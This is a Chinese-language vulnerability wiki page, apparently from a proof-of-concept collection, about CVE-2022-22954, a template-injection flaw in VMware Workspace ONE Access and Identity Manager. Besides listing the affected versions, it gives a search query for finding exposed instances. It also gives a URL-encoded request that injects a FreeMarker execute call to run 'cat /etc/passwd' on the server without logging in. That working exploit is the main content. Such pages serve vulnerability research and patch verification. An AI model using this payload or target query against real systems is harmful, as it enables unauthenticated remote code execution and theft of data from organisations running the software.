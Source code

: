 # VMware Workspace ONE Access SSTI漏洞 CVE-2022-22954

## 漏洞描述

VMware Workspace ONE Access（以前称为VMware Identity Manager）旨在通过多因素身份验证、条件访问和单点登录，让您的员工更快地访问SaaS、Web和本机移动应用程序。其中的CVE-2022-22954是一个匿名服务器模板注入漏洞，未经身份验证的攻击者可以利用此漏洞进行远程任意代码执行。

## 漏洞影响

<a-checkbox checked>VMware Workspace ONE Access Appliance （版本号：20.10.0.0 ，20.10.0.1 ，21.08.0.0 ，21.08.0.1 ）</a-checkbox></br>

<a-checkbox checked>VMware Identity Manager Appliance （版本号：3.3.3 ， 3.3.4 ， 3.3.5 ，3.3.6）</a-checkbox></br>

<a-checkbox checked>VMware Realize Automation （版本号：7.6）</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="vmware-Workspace-ONE-Access"</a-checkbox></br>

## 漏洞复现

登录页面

![img](/assets/PeiQi-Wiki/img/1649728317418-bfa9ad4f-9b88-461c-90db-da37bb591b19.png)

验证POC

```php
/catalog-portal/ui/oauth/verify?error=&deviceUdid=%24%7b%22%66%72%65%65%6d%61%72%6b%65%72%2e%74%65%6d%70%6c%61%74%65%2e%75%74%69%6c%69%74%79%2e%45%78%65%63%75%74%65%22%3f%6e%65%77%28%29%28%22%63%61%74%20%2f%65%74%63%2f%70%61%73%73%77%64%22%29%7d
```

![img](/assets/PeiQi-Wiki/img/1649728372163-e5da4186-4042-4cb5-a4ad-66580ff6af49.png)